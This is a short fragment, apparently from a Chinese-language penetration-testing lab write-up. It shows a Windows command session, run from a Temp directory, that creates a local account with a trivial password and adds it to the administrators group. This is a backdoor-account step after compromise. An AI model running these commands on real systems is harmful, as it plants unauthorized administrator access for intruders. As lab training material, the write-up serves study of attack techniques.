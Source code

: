 ![Alt text](/img/game/TESTLAB/TESTLAB11/1512722200207.png)

添加用户：

```bash
C:\Users\arm554\AppData\Local\Temp>net user sb sb /add
The command completed successfully.


C:\Users\arm554\AppData\Local\Temp>net localgroup administrators sb /add
The command completed successfully.
```

